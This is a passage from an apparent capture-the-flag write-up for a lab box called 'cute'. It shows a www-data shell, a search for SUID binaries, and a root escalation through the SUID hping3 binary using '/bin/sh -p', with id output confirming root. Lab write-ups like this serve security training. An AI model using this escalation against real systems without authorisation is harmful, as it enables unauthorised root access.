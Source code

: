 ```bash
drwxr-xr-x  2 root root  4096 Sep 17  2020 opt
lrwxrwxrwx  1 root root     4 Sep 17  2020 run -> /run
drwxr-xr-x  6 root root  4096 Sep 17  2020 spool
drwxrwxrwt  2 root root  4096 Sep  2 05:31 tmp
drwxr-xr-x  3 root root  4096 Jan 26  2021 www
www-data@cute:/var$ cd www
cd www
www-data@cute:/var/www$ ls -la
ls -la
total 16
drwxr-xr-x  3 root     root     4096 Jan 26  2021 .
drwxr-xr-x 12 root     root     4096 Sep 17  2020 ..
drwxr-xr-x  9 www-data users    4096 Sep 18  2020 html
-rw-r--r--  1 www-data www-data   33 Sep  9 12:27 local.txt
www-data@cute:/var/www$ cat local.txt
cat local.txt
```

### Escalation
`` We Start the Local Enumeration with an SUID binary search ``
```bash
www-data@cute:/var/www$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/mount
/usr/sbin/hping3
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device

```
`` We find that /usr/sbin/hping3  has a suid bit set so it will help me to escalate the priviledge``
`` Reference: https://gtfobins.github.io/gtfobins/hping3/ ``

#### Root SHell
```javascript
www-data@cute:/var/www$ /usr/sbin/hping3
/usr/sbin/hping3
hping3> 

hping3> /bin/sh -p
/bin/sh -p
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# whoami
whoami
root
# 

```


